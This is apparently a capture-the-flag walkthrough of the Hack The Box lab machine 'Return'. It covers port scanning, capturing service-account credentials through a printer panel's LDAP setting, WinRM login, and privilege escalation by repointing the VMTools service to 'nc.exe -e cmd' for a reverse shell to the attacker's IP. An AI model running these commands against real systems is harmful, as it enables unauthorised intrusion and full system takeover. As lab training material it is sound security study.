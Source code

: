 # HTB - Return

**IP Address:** `10.10.11.108`  
**OS:** Windows Server 2019  
**Difficulty:** Medium  
**Tags:** SMB, WinRM, Web Panel, LDAP Injection, Service Abuse, Reverse Shell

---

## 1. Initial Recon

### 1.1 Ping Test

✅ Host is up

### 1.2 Nmap Scanning

```bash
nmap -sC -sV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664-49696 10.10.11.108 -oN targeted
```

Found typical AD ports and open WinRM port (`5985`).

---

## 2. SMB Info

```bash
crackmapexec smb 10.10.11.108
```

Revealed:

- OS: Windows Server 2019 Build 17763
- Hostname: `PRINTER`
- Domain: `return.local`

Anonymous SMB access failed — credentials required.

---

## 3. Web Panel & Credential Leak

Accessed `http://10.10.11.108` in browser.

Settings panel allowed configuring an LDAP server.

Set our IP in the panel and launched a listener:

```bash
nc -nlvp 389
```

Triggered upload → intercepted request containing credentials:

- **User**: `svc-printer`  
- **Password**: `1edFg43012!!`

---

## 4. WinRM Access

Verified credentials:

```bash
crackmapexec smb 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

✅ WinRM access confirmed

Logged in:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

🏁 **User flag obtained**

---

## 5. Privilege Escalation

Checked privileges:

```bash
whoami /priv
```

Checked group:

```bash
net user svc-printer
```

Belongs to **Remote Management Users** — can manage services.

Listed services:

```bash
services
```

Uploaded `nc.exe` to victim's desktop via Evil-WinRM.

---

## 6. Modifying an Existing Service

Identified editable service: `VMTools`

Modified its binary path:

```bash
sc.exe config VMTools binPath="C:\Users\svc-printer\Desktop\nc.exe -e cmd 10.10.14.14 443"
```

Started listener:

```bash
nc -nlvp 443
```

Restarted service:

```bash
sc.exe stop VMTools
sc.exe start VMTools
```

✅ Reverse shell received  
🏁 **Root flag obtained**

---

# ✅ MACHINE COMPLETE
